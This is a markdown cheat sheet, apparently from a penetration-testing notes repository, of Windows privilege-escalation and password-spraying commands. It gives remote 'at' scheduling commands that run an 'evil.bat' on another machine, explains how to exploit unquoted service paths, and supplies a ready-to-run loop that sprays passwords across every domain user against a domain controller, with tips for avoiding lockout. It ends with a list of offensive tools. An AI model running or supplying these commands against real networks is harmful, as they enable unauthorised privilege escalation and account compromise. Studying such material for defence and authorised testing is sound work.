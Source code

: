 # Windows Privilege Escalation Commands

Command that can be executed from the context of a shell prompt that help escalate or increase attacker privilege of the target.

  * [UAC](uac.md) - How to bypass UAC.

# General Commands
### at (Scheduler)
 * **Command with arguments**: `at [TIME] [cmd]`
 * **Description**: This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.
 * **Examples**: 
    * Locally - `at 13:20 /interactive cmd`
    * Remotely - From http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607
         * `net use \\[computername|IP] /user:DOMAIN\username password`
         * `net time \\[computername|IP]`
         * `at \\[computername|IP] 13:20 c:\temp\evil.bat`

# Service security

### Unquoted service names

Services with unquoted binary paths may allow privilege escalation.

 * Assume ServiceA refers to the unquoted path C:\Program Files\Some Service\service.exe
 * Service is started with desirable privileges (e.g. domain, SYSTEM)
 * If attacker can create files as c:\Program.exe or ''c:\Program Files\Some.bat'' the next time the service starts the attacker controlled binary will execute
   * This is because the system can not decide if a space in the command string indicates a space in the binary path or a separator between command line arguments. The system starts with the first substring before the first space and checks if there is a file with an executable extension there (in this case C:\Program.exe, C:\Program.bat, etc.). If there is not, it checks for the next substring (C:\Program Files\Some.exe, C:\Program Files\Some.bat, etc.) and so on. If you can create a file that is checked before the intended executable, you win.
   * The scenario is typical when services are created from the command line with sc: `sc create PrivEsc binpath= "..."`

# Password Spraying

This section taken from Skoudis / Strand Pillage the Village redux webcast

### Get a list of users from the domain
 * **Command with arguments**: `net user /domain`
 * **Description**: This command will pull a list of all domain user accounts
 * **Examples**: 
    * Locally - `net user /domain > users`

### Simple `for` loop to try one or two passwords across all the users on the domain
 * **Command with arguments**: `@FOR /F %n in (users.txt) DO @FOR /F %p in (pass.txt) DO @net use \\[DOMAINCONTROLLER]\IPC$ /user:[DOMAIN]\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\[DOMAINCONTROLLER]\IPC$ > NUL`
 * **Formatted for readability:
```
@FOR /F %n in (users.txt) DO
 @FOR / F %p in (pass.txt) DO
  @net use \\[DOMAINCONTROLLER]\IPC$ /user:[DOMAIN]\%n %p 1>NUL 2>&1 &&
   @echo [*] %n:%p &&
    @net use /delete \\[DOMAINCONTROLLER]IPC$ > NULL
```
 * **Description**: a for loop that iterated over all the users in `users.txt` and tries all the passwords listed in `pass.txt`. Can be used with the `net user /domain` command listed above for every user in the domain.
 *  **Note**: To prevent account lockout, the amount of passwords in `pass.txt` should be kept very small--one or two at most.
 * **Examples**: 
  * Running this command against a domain `COMPANY` and a domain controller `COMPANYDC1`
       * `net user /domain > DomainUsers.txt`
        * `echo "Password1" >> pass.txt`
        * `echo "1q2w3e4r" >> pass.txt`
        * `@FOR /F %n in (DomainUsers.txt) DO @FOR /F %p in (pass.txt) DO @net use \\COMPANYDC1\IPC$ /user:COMPANY\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete \\COMPANYDC1\IPC$ > NUL`

# Tools

* [Windows Privesc Check](https://code.google.com/p/windows-privesc-check/)
  * Python + PyInstaller
  * No unicode support ([attempt to fix this](https://github.com/silentsignal/wpc))
  * Awful code base
* [Windows Privesc Check 2.0](https://github.com/silentsignal/wpc/tree/wpc-2.0)
  * Python + PyInstaller
  * Code is still very hard to maintain
  * Still painful to use on non-English systems
* [PowerUp](https://github.com/HarmJ0y/PowerUp)
  * Smart PowerShell cmdlets (you can run these at remote hosts also!)
  * Offensive approach
  * Checks only the privileges of the executing user
* [WPC-PS](https://github.com/silentsignal/wpc-ps)
  * PowerShell
  * Tends to check privileges for all accounts (thus identifying potential targets for privesc)
  * Still experimental

